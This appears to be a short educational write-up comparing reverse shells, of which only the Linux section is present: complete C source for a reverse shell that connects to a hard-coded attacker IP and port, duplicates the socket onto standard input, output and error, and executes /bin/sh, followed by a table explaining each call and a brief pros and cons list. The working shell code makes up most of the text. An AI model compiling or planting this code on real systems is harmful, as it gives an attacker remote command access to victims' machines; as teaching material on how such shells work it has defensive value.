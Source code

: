 # Reverse Shell Write-Up: Linux vs Windows

## 1. Linux Reverse Shell (C)

**Code:**

```c
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <unistd.h>

int main()
{
    const char *attacker_ip = "192.168.37.37";
    struct sockaddr_in target_address;
    target_address.sin_family = AF_INET;
    target_address.sin_port = htons(4444);
    inet_aton(attacker_ip, &target_address.sin_addr);

    int socket_file_descriptor = socket(AF_INET, SOCK_STREAM, 0);
    connect(socket_file_descriptor, (struct sockaddr *)&target_address, sizeof(target_address));

    for (int index = 0; index < 3; index++)
        dup2(socket_file_descriptor, index);

    execve("/bin/sh", NULL, NULL);
    return 0;
}
```

**Explanation:**

| Component                | Purpose                                                                                                 |
| ------------------------ | ------------------------------------------------------------------------------------------------------- |
| `socket()`               | Creates a TCP socket for communication.                                                                 |
| `connect()`              | Connects to the attacker's IP and port. Blocking until the listener accepts.                            |
| `dup2()`                 | Redirects stdin (0), stdout (1), stderr (2) to the socket. Equivalent to Linux process I/O redirection. |
| `execve("/bin/sh", ...)` | Replaces current process with `/bin/sh`, giving the attacker remote shell access.                       |

**Behavior:**

* **Blocking:** `connect()` waits for listener; `/bin/sh` blocks on I/O until commands arrive.
* Entire process is replaced by the shell; the program itself terminates after `execve()`.

**Pros / Cons:**

* Simple, minimal code.
* Works on any Linux system without additional libraries.
* Detected easily by network monitoring if attacker IP/port is exposed.
